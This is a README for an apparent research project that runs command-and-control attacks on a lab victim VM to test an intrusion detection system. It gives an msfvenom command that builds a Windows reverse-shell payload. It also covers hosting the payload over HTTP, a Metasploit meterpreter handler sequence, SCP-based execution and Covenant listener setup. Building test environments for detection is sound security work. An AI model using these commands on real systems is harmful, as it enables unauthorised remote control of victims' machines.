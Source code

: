 # C2abstraction
C2 abstraction layer that provides high-level diverse malware attacks to test IDS. 

Important Notes: Updated 11-07-2023

The important python files are 'C2Abstraction' and 'Mouse Script'

# Virtual Machines:

Attacker - Kali Linux (each IP is different => Must change line 64 in setup)

Victim - Another virtual machine (in this case using Windows)

    Preliminary work:
        - Setting up Kali Linux (on VMWare, an alternative is on Oracle VM): https://www.youtube.com/watch?v=pwYH0NNWWzU
        - Setting up victim machine: https://www.youtube.com/watch?v=nvdnQX9UkMY&t=259s

# METASPLOIT:
    How to create a payload?
        - If you are creating a payload for testing directly from terminal
          run command 'msfvenom -p windows/shell/reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f exe > ~/Desktop/ShellCodes/payload.exe'
          NOTE: this command assumes that you have a folder called 'ShellCodes' (can be removed)

    How to deploy the payload? (Need to automate this step)
        - As of right now, you can create a server to host the payload by
          right clicking on the folder and choose 'open terminal here' then
          use the command 'python3 -m http.server'

        - How to access this sever on the victim machine?
            * Open a webserver and type in 'http://{ip of kali machine}:{port number}'
            * In this case it is 'http://192.168.239.128:8000 (8000 is the default port)

    How to run msfvenom?
        - run 'msfconsole' in command line
        - then type in 'use exploit/multi/handler'
        - then set payload as 'set payload windows/meterpreter/reverse_tcp'
        - set host using 'set lhost {attacker ip}'
        - set listening port using 'set lport {target_port}'
        - then type in 'exploit'
        NOTE: in the code this whole sequence is chained into one line on line 46: 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost {target_ip}; set lport {target_port}; exploit;


    How to track if HTTP commands/connections are going through?
        -You can catch the logs of the HTTP connections in real time by
            * going to /etc
            * then go to /ssh
            * then use 'nano' command to edit the 'sshd_config' file
            * look for the line '#LogLevel INFO'
            * remove the # then replace INFO with 'VERBOSE'
            * now run 'sudo journalctl -f' in the command line to track the logs
    
    How to run the payload on the victim machine?
        - Using SCP we can connect to the victim machine via SSH and execute the payload 


# COVENANT:

NOTE: What is the difference between covenant and metasploit?

- Covenant has a web GUI that requires a script to control the mouse to deploy the malware

How to download covenant/introduction to covenant: https://www.youtube.com/watch?v=BLMW0fougFM

How to use the interface: https://www.youtube.com/watch?v=iX_qsbbNk2w

    IMPORTANT: You must have convenant running in GIT bash at all times 

    How to create a listener? 
        - On the web GUI, click on the 'Listener' tab. Then name your listener and set the port.

Mouse Script:
    - This python file is used to automatically control your mouse to create a listener on the GUI
      and create the "grunt" (used for collecting information)




# Citation
    @Unpublished{HungVu_IDS_TESTING_C2,
      author = {Hung Anh Vu},
      title = {{Research Testing Environment}},
      url = {https://github.com/HungAnhVu/C2abstraction},
      version = {1.0.0},
      year = {2023}
    }
